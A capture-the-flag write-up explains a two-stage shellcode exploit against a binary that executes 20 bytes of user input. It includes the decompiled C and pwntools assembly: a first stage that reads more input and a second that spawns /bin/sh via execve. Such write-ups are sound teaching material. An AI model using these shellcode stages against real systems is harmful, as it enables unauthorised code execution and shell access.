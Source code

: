 This challenge is very similar to back_to_shell. Also here we have an input that is directly called by the main:
```c
void main(void)

{
  code *shellcode;
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  shellcode = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  read(0,shellcode,0x14);
  printf("Executing you shellcode.");
  (*shellcode)();
  return;
}
```
(I have deleted from the source code a printf that just print a ascii art).
The problem here is that we can only read 0x14 (20 in decimal) bytes, so if we want to use the same shellcode as back_to_shell we cannot because the length of the payload was 0x18 (shellcode + bin/sh\x00).
What we can do, as the name of the challenge suggest is to create a multystage shellcode:
- first stage to call the syscall read with an higher length 
- pass to the read the shellcode for spawn a shell
the stage 1 can be this:
```python
stage_1="""
mov rsi, rax
add rsi, 20
xor rdi, rdi
mov edx, 0x100
xor rax, rax
syscall
"""
asm_stage_1 = asm(stage_1)

r.send(asm_stage_1)
```

this will call a read in the area just after the shellcode for the stage 1, here we will put the shellcode for the stage 2:
```python
stage_2="""
mov rdi, rcx
add rdi,22
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
"""
asm_stage_2=asm(stage_2)
payload=asm_stage_2+ b"/bin/sh\x00"
r.send(payload)
```
this will spawn a shell.
Notice that in both stage 1 and 2 the second instruction is dependent from the size of the shellcode itself.
